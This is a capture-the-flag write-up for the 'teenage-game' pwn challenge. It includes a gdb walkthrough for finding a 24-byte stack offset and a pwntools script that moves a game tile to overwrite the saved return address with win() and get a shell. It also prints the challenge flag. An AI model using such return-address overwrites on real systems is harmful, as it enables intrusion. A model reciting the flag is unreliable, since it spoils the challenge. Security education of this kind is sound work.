


# teenage-game

## Problem

<details>

<summary>Description</summary>

give me a string, any string!

`nc tjc.tf 31764`

</details>

## Solution

This challenge is the exact same as `babygame02` in picoCTF 2023 with some improvements in the new features and better experiences when comes into playing the game. The solution however is exactly the same and there's other people who explained it better than me, go refer to this link for the full in-depth explanation towards the exploit we're about to do



what I will cover however is how do we determine the offset of our player tile and the RIP. Boot up gdb, move our player tile the coordinate of (0, 0) and `Ctrl+C` to inspect the stack alignment.&#x20;

<figure><figcaption><p>stack alignment</p></figcaption></figure>

we see that our player tile is located at `0x7fffffffd2b0` and the return to main is located at `0x7fffffffd298`. Although the address may be dynamic, their offset towards each other is the same. Thus we can calculate the offset to determine how many time we should move.

<figure><figcaption><p>calculating offset</p></figcaption></figure>

Thus 24 is our offset


```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './game'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'info'
host = 'tjc.tf'
port = 31119

def start(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *win
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
# reference: https://blog.ry4n.org/babygame02-picoctf-writeup-6bf57b54f7b3
io = start()

# set player tile to last byte of win()
io.send(b'l')
io.send(b'\xe4')

# set coordinate to (0, 0)
for i in range(4):
    io.send(b'w')
    io.send(b'a')

# overwriting RIP
io.send(b'w')
for i in range(24):
    io.send(b'a')
io.send(b's')

# got shell
io.interactive()
```


## Flag

> _**tjctf{so\_many\_new\_features\_but\_who\_will\_stop\_the\_underflow?\_47c6f204377cb18b30e68da46e9930dc}**_
